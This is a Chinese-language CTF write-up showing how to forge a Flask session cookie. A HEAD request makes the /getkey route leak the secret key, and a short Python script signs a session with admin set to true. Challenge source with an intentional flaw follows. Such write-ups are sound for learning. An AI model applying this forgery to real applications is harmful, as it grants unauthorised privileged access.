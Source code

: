 进入开启bp, 抓包访问，提交表单，看到session里一段很长的flask的token签名。。。

```
Cookie: session=eyJhZG1pbiI6ZmFsc2UsImRhdGEiOnsiIGIiOiJNZz09In0sInVybCI6IjEifQ.YU2Iww.huCu4kQmY0WK1URUXDGcuZLhte4
```

base64解码前面的部分。  -- 小知识：flask token分3部分。payload+timestamp+签名, 中间用.分隔。

```
{"admin":false,"data":{" b":"Mg=="},"url":"1"}..Ø.0.à®âD&cE.ÕDT\1.¹.áµî
```

显然是提示想办法把admin修改为true。

页面里给了getkey链接

```python

@app.route('/getkey', methods=["GET"])
def getkey():
    if request.method != "GET":
        session["key"]=SECRET_KEY
```
它是GET方法，又不是GET方法。

搜索 request.method 。第一条官方文档写得非常直白

https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Methods

> HEAD
> HEAD方法请求一个与GET请求的响应相同的响应，但没有响应体。

即可在Response里得到一个key值。再用flask自带的方法签名一下内容。

```python
from flask import Flask
from flask.sessions import SecureCookieSessionInterface

app = Flask(__name__)
app.secret_key = b'your_key'

session_serializer = SecureCookieSessionInterface().get_signing_serializer(app)

@app.route('/')
def index():
    print(session_serializer.dumps("your_data"))

index()
```

在开发者工具里修改cookie为新的签名。再访问/home页面得到源码。

```python

from flask import Flask, request, session, render_template, url_for,redirect,render_template_string
import base64
import urllib.request
import uuid
import flag

SECRET_KEY=str(uuid.uuid4())

app = Flask(__name__)
app.config.update(dict(
    SECRET_KEY=SECRET_KEY,
))

#src in /app

@app.route('/')
```